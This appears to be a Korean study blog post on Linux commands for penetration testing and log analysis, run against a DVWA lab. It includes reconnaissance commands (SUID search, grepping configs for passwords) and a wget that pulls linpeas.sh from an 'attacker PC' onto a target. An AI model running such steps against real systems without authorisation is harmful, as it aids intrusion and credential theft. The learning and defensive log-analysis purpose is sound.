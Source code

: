 ```yaml
---
layout: post
title: "리눅스 명령어 공부"
date: 2025-09-02 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 기본적인 도구로 활용된다. 시스템 정보 수집, 서비스 확인, 스크립트 준비 등 다양한 작업이 터미널을 통해 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **find**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 유용하다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **grep**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **ps**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 이를 통해 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 수 있다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬 등)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **netstat**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **wget**: 원격 서버의 파일을 다운로드하여 저장한다. 공격자 PC의 웹 서버에서 권한 상승 진단 스크립트(`linpeas.sh` 등)를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC(192.9.200.12)에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://192.9.200.12:8000/linpeas.sh
    ```
*   **curl**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` 등 HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://192.9.200.11/login.php
    ```

### 5. 기본 로그 분석

시스템에 남겨진 로그 파일을 분석하여 공격 시도나 비정상적인 활동을 탐지할 수 있다. `grep`, `tail`과 같은 명령어는 대량의 로그에서 유의미한 정보를 필터링하는 데 사용된다.

#### **주요 로그 파일 (Ubuntu 기준)**
*   `/var/log/auth.log`: 사용자 로그인, `sudo` 명령어 사용 등 인증 관련 기록.
*   `/var/log/apache2/access.log`: 웹 서버 접속 기록.

#### **로그 분석 예시**
*   **SSH 로그인 실패 기록 확인:**
    `/var/log/auth.log` 파일에서 "Failed password" 문자열을 검색하여 무차별 대입 공격 시도를 탐지한다.
    ```bash
    grep "Failed password" /var/log/auth.log
    ```
*   **특정 IP의 웹 서버 접근 기록 확인:**
    `access.log`에서 특정 IP(`192.9.200.12`)의 접근 기록을 필터링한다.
    ```bash
    grep "192.9.200.12" /var/log/apache2/access.log
    ```

이러한 로그 분석은 [A09: 보안 로깅 및 모니터링 실패](https://hamap0.github.io/projects/owasp-top-10/2025/09/02/A09_Security-Logging-and-Monitoring-Failures.html) 프로젝트에서 로그의 중요성을 이해하는 기반이 된다.

<hr class="short-rule">